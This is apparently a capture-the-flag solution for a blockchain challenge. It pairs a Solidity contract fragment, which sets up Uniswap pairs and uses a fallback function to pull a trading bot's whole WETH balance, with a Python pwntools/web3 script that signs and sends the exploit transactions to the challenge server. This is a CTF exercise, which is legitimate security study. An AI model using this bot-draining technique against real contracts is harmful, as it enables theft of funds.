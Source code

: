 ```solidity
        IUniswapV2Pair pair2 = IUniswapV2Pair(fac2.createPair(address(e), 0x9d9901f3b034427dd0e6Cf1c70aE5E4d94Ed19e7));

        uint b = address(this).balance;
        IWETH(0x9d9901f3b034427dd0e6Cf1c70aE5E4d94Ed19e7).deposit{value: b}();
        IERC20(0x9d9901f3b034427dd0e6Cf1c70aE5E4d94Ed19e7).transfer(address(pair1), b / 2);
        IERC20(0x9d9901f3b034427dd0e6Cf1c70aE5E4d94Ed19e7).transfer(address(pair2), b - b / 2);
        e.transfer(address(pair1), 1 ether);
        e.transfer(address(pair2), 10 ether);
        pair1.mint(address(this));
        pair2.mint(address(this));
    }
    fallback() external payable {
        Bot bot = Bot(0x607D86B806E7b2993438E82af2236C786a0Ff780);
        uint balance = IERC20(0x9d9901f3b034427dd0e6Cf1c70aE5E4d94Ed19e7).balanceOf(address(bot));
        IERC20(0x9d9901f3b034427dd0e6Cf1c70aE5E4d94Ed19e7).transferFrom(address(bot), address(this), balance);
    }
}
```

```python
from pwn import *
from web3 import Web3

w3 = Web3()
pk = '11451411' * 8
acc = w3.eth.account.from_key(pk)

tx = {
    'from': acc.address,
    'nonce': 0,
    'gas': 10000000,
    'gasPrice': 10**10,
    'data': '0x' + open('code_3.txt').read(),
    'chainId': 2023,
    'value': 10**17,
}
signed = w3.eth.account.sign_transaction(tx, pk)

tx2 = {
    'from': acc.address,
    'nonce': 1,
    'gas': 1000000,
    'gasPrice': 10**10,
    'data': '0x',
    'chainId': 2023,
    'value': 0,
    'to': '0x95431Ac61B186Be99cb96003E2272DA074EF3bE7',
}
signed2 = w3.eth.account.sign_transaction(tx2, pk)

context.log_level = 'debug'

r = remote('202.38.93.111', 10222)
r.sendlineafter(b'Please input your token: ', b'xxx')
r.sendlineafter(b'The challenge you want to play (1 or 2 or 3): ', b'3')
r.sendlineafter(b'Choice: ', b'1')
r.sendlineafter(b'Address: ', acc.address.encode())
r.sendlineafter(b'Choice: ', b'2')
r.sendlineafter(b'Raw transaction: ', signed.rawTransaction.hex().encode())
r.sendlineafter(b'Choice: ', b'2')
r.sendlineafter(b'Raw transaction: ', signed2.rawTransaction.hex().encode())
r.interactive()
```